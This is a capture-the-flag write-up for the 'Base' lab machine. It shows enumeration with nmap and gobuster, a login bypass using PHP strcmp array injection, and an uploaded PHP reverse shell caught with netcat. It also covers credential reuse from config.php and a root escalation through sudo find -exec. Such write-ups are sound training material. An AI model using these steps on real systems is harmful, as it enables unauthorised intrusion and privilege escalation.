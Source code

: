 ```yaml
---
title: "Writeup: Base"
date: 2021-01-21T17:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - base
  - update
  - nmap
  - linux
  - strings
  - burp
  - php
  - nc
  - reverse shell
  - gobuster
  - upgrade shell
  - su
  - sudo -l
  - sudo command exploit
---
```


Here are notes from the named target:
Target Linux
Host name Base
IP 10.10.10.48

#Enumeration
Start with simple nmap scan - nmap -sV -sC -p- -Pn 10.10.10.48 --min-rate=10000

Looks like ssh and web
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```
Tried the root password and daniel ssh loging from previous target but neither worked so going to take a look at the web servLooking at website it has a login screen at http:/10.10.10.48/login/login.php

Lets look for directories and maybe get some info from gobuster - best to just download the binary and run it that way
```yaml
gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirb/big.txt

Results
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/22 17:42:12 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/_uploaded            (Status: 301) [Size: 314] [--> http://10.10.10.48/_uploaded/]
/login                (Status: 301) [Size: 310] [--> http://10.10.10.48/login/]    
/server-status        (Status: 403) [Size: 276]                                    
/static               (Status: 301) [Size: 311] [--> http://10.10.10.48/static/]   
```

view source does not show anything but lets look and see if inything can be seen in the /login folder beside "login.php":

we see a total of three files
1. config.php
2. login.php
3. login.php.swp

Nothing is in config.php and we already see login.php so taking a look at login.php.swp prompts me to save the file.
```yaml
t('Wrong Username or Password')</script>");    } else {        }            print("<script>alert('Wrong Username or Password')</script>");        } else {            header("Location: upload.php");            $_SESSION['user_id'] = 1;        if (strcmp($password, $_POST['password']) == 0) {    if (strcmp($username , $_POST['username']) == 0) {    require('config.php');if (!empty($_POST['username']) && !empty($_POST['password']
```

You can use strings here on this file to look at its info but it is a small file and easy enough with cat

the cool thing is that this login.php page is using a string compare (strcmp) function to check the username and password supplied and that can be exploited by passing in array[] to the variables using BURP. Next step is to set the browser proxy and start burp. Capture the login with test and test
```yaml
OST /login/login.php HTTP/1.1
Host: 10.10.10.48
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.10.10.48
Connection: close
Referer: http://10.10.10.48/login/login.php
Cookie: PHPSESSID=ojt0vhgaaaomru3m393qevuhse
Upgrade-Insecure-Requests: 1

username=test&password=test
```

then we pop in same arrays before we send it back to the server like this
```yaml
username[]=test&password[]=test
```
that logged us into the site as admin saying "welcome admin". See on this page ability to upload a file so lets upload a php reverse shell back to our Kali
using a netcat -nlvp 4848 for the targets ip address

We found through the gobuster application several directories and one was called "/_uploaded/" so after a test file and a php reverse shell upload we check and find they are in the directory
```yaml
Index of /_uploaded
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	48_rev.php	2021-01-22 22:15 	5.4K	 
[TXT]	test.txt	2021-01-22 22:17 	2 	 
Apache/2.4.29 (Ubuntu) Server at 10.10.10.48 Port 80
```

Start up netcat "nc -nlvp 4848 and then connect t the url "http://10.10.10.48/_uploaded/48_rev.php" Results are:
```yaml
┌──(root💀kali)-[~]
└─# nc -nlvp 4848
listening on [any] 4848 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.48] 47122
Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:58:51 up 17:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

```
got a foot hold but low priv so seeing about users:
improve shell - python3 -c "import pty;pty.spawn('/bin/bash')" - worked:

check users "cat /etc/passwd: and find johnas a user

lets take a look in that config.php file for some passwords
```yaml
www-data@base:/var/www/html$ cd login
cd login
www-data@base:/var/www/html/login$ ls
ls
config.php  login.php  login.php.swp
www-data@base:/var/www/html/login$ cat config.php
cat config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";www-data@base:/var/www/html/login$ 
```

Trying su with john : thisisagoodpassword
```yaml
www-data@base:/var/www/html/login$ cd /
cd /
www-data@base:/$ su john
su john
Password: thisisagoodpassword

john@base:/$ 
```
Now grab that flag

Check to see if you can run commands with sudo because we have the password
~~~yaml
sudo -l
password - but that did not work so tru ssh login

```yaml
* Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

8 packages can be updated.
0 updates are security updates.


Last login: Thu Mar 12 10:22:26 2020
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
john@base:~$ 

```

we can use find and run it as root - their is a way to run commands and get root with them if you can sudo with that command

This binary can be used to execute commands as. It searches for files in the root folder of the system and executes the bash shell as root.

```yaml
sudo /usr/bin/find /etc -exec /bin/bash \;

john@base:~$ sudo /usr/bin/find /etc -exec /bin/bash \;
root@base:~# ls
user.txt
root@base:~# pwd
/home/john
root@base:~# cd /root
root@base:/root# ls
root.txt
root@base:/root# 
```











